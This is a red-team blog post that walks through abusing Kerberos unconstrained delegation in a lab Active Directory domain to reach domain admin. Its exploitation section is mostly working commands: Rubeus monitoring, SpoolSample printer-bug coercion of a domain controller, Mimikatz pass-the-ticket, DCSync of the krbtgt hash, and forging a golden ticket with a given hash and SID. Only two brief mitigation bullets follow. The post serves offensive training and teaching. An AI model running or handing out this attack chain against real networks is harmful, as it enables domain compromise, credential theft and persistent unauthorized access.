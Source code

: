 ```yaml
---
layout: post
title: "DCSync attack with Kerberos unconstrained delegation."
description: "This post demonstrates how to capture the domain controller’s Ticket-Granting-Ticket (TGT) by coerce a domain controller to authenticate to a computer configured with unconstrained delegation."
tags: [red_team, active_directory]
---
```


### Introduction.

In the `Active Directory` environment delegation allows an account to impersonate another account to access resources within the network.

There are three known types of delegations allowed with Kerberos:

- Unconstrained delegations.
- Constrained delegations.
- Resource-based constrained delegations.

Unconstrained delegation allows a user or computer with the option "Trust This user/computer for delegation to any service" enabled to impersonate any user authenticated to it and request access to any service.

Today we will be trying to abuse Unconstrained delegation to perform a privilege escalation and become a domain admin.

The following image represents a computer in the Active Directory which is configured for unconstrained delegation:

{% include image.html path="screenshots/krbdelg/1.png" path-detail="screenshots/krbdelg/1.png" alt="Sample image" %}

<br>
<hr>
<br>

### Attack Requirements

- A domain computer with the delegation option "Trust This computer for delegation to any service" enabled.
- Local admin privileges on the delegated computer to dump the TGT tickets. If you compromised the server as a regular user, you would need to escalate to abuse this delegation feature.

<br>
<hr>
<br>

### Tools Used

- [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- [Active Directory Modules](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps)
- [Mimikatz](https://github.com/gentilkiwi/mimikatz)
- [SpoolSample](https://github.com/leechristensen/SpoolSample)
- [Rubeus](https://github.com/GhostPack/Rubeus)

<br>
<hr>
<br>

### Identifying The Target.

We are interested with computer objects with the property `TrustedForDelegation` set to `true`:

We can use PowerView to find computers that are configured for Unconstrained Delegation with a syntax :

```powershell
Get-DomainComputer -Unconstrained -Properties useraccountcontrol,dnshostname | fl
```
<br>
{% include image.html path="screenshots/krbdelg/2.png" path-detail="screenshots/krbdelg/2.png" alt="Sample image" %}

<br>
Also using ADModule with the following syntax we can see the same results:

```powershell
 Get-ADComputer -Filter {TrustedForDelegation -eq $True}
```
<br>
{% include image.html path="screenshots/krbdelg/3.png" path-detail="screenshots/krbdelg/3.png" alt="Sample image" %}


As we can see we have two computers in the `STRAWHATS.local` domain with unconstrained delegation:

- The computer is named `DC01.strawhats.local`, which is a domain controller, Domain controllers have unconstrained delegation enabled by default.
- The computer named `BLACKBEARD.strawhats.local` computer which is our target, we are good to attack.

<br>
<hr>
<br>

### Exploitation.

In order to exploit unconstrained delegation we need to compromise the system with the delegation enabled, in this post we’ll assume that we already did it.

The idea is to coerce a privileged user to connect to the computer with the delegation enabled. To achieve this we’re going to use the SpoolSample bug to force a domain controller account to connect to us.

First let us set up Rubeus on the computer we compromised to listen for incoming authenticated connections in order to monitor for incoming connections with Rubeus using the following command:

```powershell
Rubeus.exe monitor /interval:5 /filteruser:DC01
```

<br>
{% include image.html path="screenshots/krbdelg/4.png" path-detail="screenshots/krbdelg/4.png" alt="Sample image" %}

Next, using SpoolSample tools, we trigger the printer bug on a domain controller, We are triggering the bug on host `DC01.strawhats.local` and coercing it to authenticate against the host that we control where we are running Rubeus, `BLACKBEARD.strawhats.local`.

```powershell
SpoolSample.exe DC01.strawhats.local BLACKBEARD.strawhats.local
```

where:

- `DC01.strawhats.local` is the domain controller we want to compromise
- `BLACKBEARD.strawhats`.local is the machine with delegation enabled that we control.

{% include image.html path="screenshots/krbdelg/5.png" path-detail="screenshots/krbdelg/5.png" alt="Sample image" %}

Suddenly, we see the authentication come from DC01 along with its ticket granting ticket (TGT) captured by Rubeus.

{% include image.html path="screenshots/krbdelg/6.png" path-detail="screenshots/krbdelg/6.png" alt="Sample image" %}

From a powershell console we can convert the base64 ticket and write the contents to a file with the .kirbi extension using the following command.

```powershell
[IO.File]::WriteAllBytes("C:\tools\DC.kirbi", [Convert]::FromBase64String("Base64 Ticket String"))
```
<br>
{% include image.html path="screenshots/krbdelg/7.png" path-detail="screenshots/krbdelg/7.png" alt="Sample image" %}

Before we proceed with pass-the-ticket attack and become a domain admin, let's try PSRemoting to the DC01 from BLACKBEARD and check currently available kerberos tickets in a current logon session, just to make sure we currently do not have domain admin rights:

{% include image.html path="screenshots/krbdelg/9.png" path-detail="screenshots/krbdelg/9.png" alt="Sample image" %}

Above picture shows that there are no tickets and PSSession could not be established.

Using Mimikatz we can pass-the-ticket and the current user account will get high privilege rights on the domain controller.

```powershell
mimikatz.exe "kerberos::ptt DC.kirbi"
```

<br>
{% include image.html path="screenshots/krbdelg/8.png" path-detail="screenshots/krbdelg/8.png" alt="Sample image" %}

Then we `DCSync` to dump the `NTLM` hash of the `krbtgt` account.

```powershell
lsadump::dcsync /user:STRAWHATS\krbtgt`
```
<br>
{% include image.html path="screenshots/krbdelg/10.png" path-detail="screenshots/krbdelg/10.png" alt="Sample image" %}

Now let’s forge a golden ticket with Mimikatz for the user STRAWHATS\Administrator:

```powershell
kerberos::golden /user:Administrator /domain:strawhats.local /sid:S-1-5-21-3112608399-2123514497-4142719192-502 /krbtgt:3db0f96a64abc0bc2e4dd779d191d74a /ptt
```
<br>
{% include image.html path="screenshots/krbdelg/11.png" path-detail="screenshots/krbdelg/11.png" alt="Sample image" %}

Now We can try to PSRemote into the domain controller as the Administrator user :

<br>
{% include image.html path="screenshots/krbdelg/12.png" path-detail="screenshots/krbdelg/12.png" alt="Sample image" %}

As we can see from the above screenshot, the BLACKBEARD computer now contains a krbtgt for STRAWHATS\Administrator, which enables to establish a PSSession to DC01 with an interactive shell with Domain admin privileges.

<br>
<hr>
<br>

### Mitigation.

- Disable kerberos delegation where possible.
- Be cautious of whom you give privilege "Trust This user/computer for delegation to any service".

<br>
<hr>
<br>

##### References.

- https://www.slideshare.net/harmj0y/the-unintended-risks-of-trusting-active-directory
- https://adsecurity.org/?p=1667
- https://blog.xpnsec.com/kerberos-attacks-part-1/
- https://www.cyberark.com/resources/threat-research-blog/weakness-within-kerberos-delegation
